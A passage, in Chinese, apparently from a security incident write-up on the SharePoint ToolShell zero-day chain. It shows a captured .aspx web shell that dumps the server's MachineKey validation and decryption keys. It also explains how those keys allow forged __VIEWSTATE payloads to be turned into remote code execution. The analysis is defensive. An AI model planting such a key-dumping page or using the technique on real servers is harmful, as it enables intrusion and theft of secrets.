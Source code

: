- 我们感觉凭证从来没有  
被使用过…  
  
攻击者怎么能在**完全没有身份验证**  
的情况下向服务器写入文件呢？  
## ToolShell (CVE-2025-49706 & CVE-2025-49704)  
  
就在这时我们意识到，我们处理的不再是一个简单的基于凭证的入侵。 这不是暴力破解或钓鱼场景。**这是零日漏洞领域的事情。**  
  
经过一些调查，我们了解到三天前，**Code White GmbH**  
的攻击安全团队展示了他们可以重现SharePoint中的未经身份验证的RCE利用链，这是今年5月在Pwn2Own Berlin上展示的两个漏洞的组合：  
- CVE-2025-49706  
  
- CVE-2025-49704  
  
他们将这个链称为**ToolShell**  
。  
  
当时，这被认为是一个概念验证。没有公开代码发布，细节也很稀少。但时间匹配。行为也匹配：/_layouts/15/ToolPane.aspx  
中的漏洞，文件写入，无需登录，完全控制Web应用程序进程。  
  
这不是凭证问题。这是一个已经在野外使用的武器化Pwn2Own漏洞。  
## ASPX载荷：转储加密密钥  
  
当我们的团队开始审查受影响的系统时，我们预期会找到常见的嫌疑对象：用于命令执行、文件上传或横向移动的标准网页木马。相反，我们发现的更微妙，可以说更危险：一个隐秘的.aspx  
文件，其唯一目的是通过简单的GET请求从SharePoint服务器中提取和泄露加密秘密。  
```
<%@ Import Namespace="System.Diagnostics" %><%@ Import Namespace="System.IO" %><script runat="server" language="c#" CODEPAGE="65001">    public void Page_load()    {  var sy = System.Reflection.Assembly.Load("System.Web, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b03f5f7f11d50a3a");        var mkt = sy.GetType("System.Web.Configuration.MachineKeySection");        var gac = mkt.GetMethod("GetApplicationConfig", System.Reflection.BindingFlags.Static | System.Reflection.BindingFlags.NonPublic);        var cg = (System.Web.Configuration.MachineKeySection)gac.Invoke(null, new object[0]);        Response.Write(cg.ValidationKey+"|"+cg.Validation+"|"+cg.DecryptionKey+"|"+cg.Decryption+"|"+cg.CompatibilityMode);    }</script>
```  
  
这不是你典型的网页木马。没有交互式命令、反向shell或命令控制逻辑。相反，这个页面调用内部.NET方法来读取SharePoint服务器的**MachineKey**  
配置，包括ValidationKey  
和DecryptionKey  
。这些密钥对于生成有效的__VIEWSTATE  
载荷至关重要，获得它们实际上**将任何经过身份验证的SharePoint请求转变为远程代码执行机会**  
。  
  
然后一切都联系起来了。  
## 通过CVE-2021-28474在SharePoint上实现RCE  
  
基于我们对CVE-2021-28474的了解，我们可以推断新的ToolShell CVE链是如何完成完整的远程代码执行(RCE)的：利用SharePoint通过__VIEWSTATE  
处理反序列化和控件渲染的方式。  
  
在原始的CVE-2021-28474中，攻击者滥用SharePoint页面中的服务器端控件解析逻辑，将意外对象注入页面生命周期。这是可能的，因为SharePoint使用存储在机器配置中的签名密钥（即ValidationKey  
）来加载和执行ASP.NET ViewState  
对象。通过制作带有序列化载荷的恶意页面请求，并正确签名  
，攻击者可以导致SharePoint反序列化任意对象并执行嵌入的命令。然而，该漏洞受到生成有效签名要求的限制，这反过来需要访问服务器的秘密ValidationKey  
。  
  